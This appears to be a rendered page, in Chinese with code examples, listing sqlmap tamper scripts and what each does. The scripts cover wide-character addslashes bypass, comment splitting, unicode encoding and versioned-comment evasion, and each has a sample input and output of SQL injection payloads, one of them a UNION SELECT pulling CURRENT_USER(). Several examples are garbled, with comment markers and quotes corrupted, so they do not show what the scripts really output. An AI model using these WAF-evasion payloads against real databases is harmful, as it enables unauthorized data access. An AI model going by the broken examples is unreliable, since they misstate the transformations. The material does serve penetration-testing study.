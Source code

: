 
* unmagicquotes.py

　　作用：宽字符绕过 GPC addslashes

　　Example: 
``` bash
 Input: 1′ AND 1=1 

 Output: 1%bf%27 AND 1=1–%20
```
* randomcomments.py

　　作用：用/**/分割sql关键字

　　Example:
``` bash
‘INSERT’ becomes ‘IN//S//ERT’
```
* charunicodeencode.py

　　作用：字符串 unicode 编码

　　Example: 
``` bash
 Input: SELECT FIELD%20FROM TABLE 

 Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
```




* securesphere.py

　　作用：追加特制的字符串


　　Example:
``` bash
 ('1 AND 1=1') "1 AND 1=1 and '0having'='0having'" 
```

* versionedmorekeywords.py

　　作用：注释绕过

　　Example: 
``` bash
Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 

 Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))# 
```
* space2comment.py
　　作用：Replaces space character (‘ ‘) with comments ‘/**/’

　　Example: 
``` bash
 Input: SELECT id FROM users 

 Output: SELECT//id//FROM/**/users
```
